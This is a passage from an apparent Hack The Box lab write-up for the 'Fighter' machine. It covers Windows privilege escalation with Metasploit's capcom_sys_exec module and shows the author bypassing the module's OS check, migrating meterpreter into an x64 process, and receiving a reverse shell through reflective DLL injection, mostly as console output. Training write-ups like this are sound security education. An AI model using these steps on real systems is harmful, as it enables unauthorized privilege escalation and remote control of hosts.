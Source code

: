         return Exploit::CheckCode::Safe
      end



It's checking that the OS is 7, 8, or 10, and that the architecture is
x64. It's failing because this is a Windows Server OS. It also checks
for the vulnerable version of the driver (which I've already shown is
there).

I'll comment out the check for the OS version, exit Metasploit, and
start it again to reload the new version.

#### Architechure

This time, it's a different error:



    msf6 exploit(windows/local/capcom_sys_exec) > run

    [!] SESSION may not be compatible with this module:
    [!]  * incompatible session architecture: x86
    [*] Started reverse TCP handler on 10.10.14.6:443 
    [-] Exploit aborted due to failure: no-target: Running against WOW64 is not supported, please get an x64 session
    [*] Exploit completed, but no session was created.



It's unhappy about the x86 architecture. I needed x86 powershell to get
onto Fighter, but now I'll migrate into a x64 process. There's a
`cmd.exe` process that seems to be persistent:



    meterpreter > ps                                  
                                                                                   
    Process List                                                            
    ============                                                                   
                                                                                   
     PID   PPID  Name                     Arch  Session  User             Path
     ---   ----  ----                     ----  -------  ----             ----  
    ...[snip]...
     3664  1132  cmd.exe                  x64   0        FIGHTER\sqlserv  C:\Windows\System32\cmd.exe

    meterpreter > migrate 3664
    [*] Migrating from 3524 to 3664...
    [*] Migration completed successfully.



#### Success

Now running it works:



    msf6 exploit(windows/local/capcom_sys_exec) > run

    [*] Started reverse TCP handler on 10.10.14.6:443 
    [*] Launching msiexec to host the DLL...
    [+] Process 420 launched.
    [*] Reflectively injecting the DLL into 420...
    [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
    [*] Sending stage (200262 bytes) to 10.10.10.72
    [*] Meterpreter session 2 opened (10.10.14.6:443 -> 10.10.10.72:49163 )
